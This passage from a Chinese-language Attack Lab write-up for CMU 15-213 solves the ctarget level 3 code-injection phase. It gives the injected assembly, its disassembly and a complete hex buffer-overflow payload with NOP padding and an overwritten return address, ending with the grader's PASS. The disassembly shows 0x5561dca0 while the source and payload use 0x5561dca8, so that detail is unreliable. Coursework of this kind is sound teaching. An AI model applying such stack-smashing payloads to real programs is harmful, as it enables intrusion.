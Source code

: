 ```
movl $0x5561dca8,%edi
subq $0x8,%rsp
movl $0x4018fa,(%rsp)
ret
```

中间两行代码可以改为`pushq $0x4018fa`。由此，我们在`ph3.s`中放入如下内容：

```
movl $0x5561dca8,%edi
pushq $0x4018fa
ret
```

后续步骤和前述一样，我们生成其汇编代码：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf a0 dc 61 55       	mov    $0x5561dca8,%edi
   5:	68 fa 18 40 00       	pushq  $0x4018fa
   a:	c3                   	retq
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
```

这次我们不把汇编代码插入`buf + 8`了，因为没有意义，我们直接将其插入汇编代码开头即可。最后的 8 个字节返回地址改为`0x5561dc78`。其前面的内容为`bf a0 dc 61 55 68 fa 18 40 00 c3`，共 11 个字节。插入 29 个`nop`(0x90)。在插入 8 个字节的返回地址（`0x000000005561dc78`）。最后放入 9 个字节的字符串`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 0x00`。最后结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:BF A8 DC 61 55 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过！

## Part II: Return oriented Programming attack

`rtarget`的攻击要比`ctarget`难一些，因为：
